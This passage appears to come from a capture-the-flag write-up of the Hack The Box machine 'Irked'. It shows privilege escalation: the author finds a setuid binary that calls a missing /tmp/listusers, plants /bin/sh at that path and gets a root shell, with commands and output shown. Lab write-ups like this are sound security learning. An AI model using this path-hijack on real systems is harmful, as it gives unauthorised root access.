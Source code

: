 ```console
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

The view `/usr/bin/viewuser` stands out as atypical.

```text
ircd@irked:~$ file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped
ircd@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-06-28 15:40 (:0)
ircd     pts/1        2024-06-28 16:23 (10.10.14.10)
ircd     pts/2        2024-06-28 17:08 (10.10.14.10)
sh: 1: /tmp/listusers: not found
```

It's calling `/tmp/listusers` which doesn't exist. Since I can write to that directory, I can put `/bin/sh` there for a shell.

```text
ircd@irked:~$ cp /bin/sh /tmp/listusers
ircd@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-06-28 15:40 (:0)
ircd     pts/1        2024-06-28 16:23 (10.10.14.10)
ircd     pts/2        2024-06-28 17:08 (10.10.14.10)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

## Open Questions

I got lost down a deep `rpcbind` rabbit hole. Is there something there?

## Credits

I missed the setuid binary on my first pass, and spent two hours researching `rpcbind`. This [writeup from snowscan](https://snowscan.io/htb-writeup-irked/) is a little outdated--it looks like HTB changed the box since it was written, e.g. `/home/djmardov/.backup` no longer exists. But, it still helped point me in the right direction for PE.
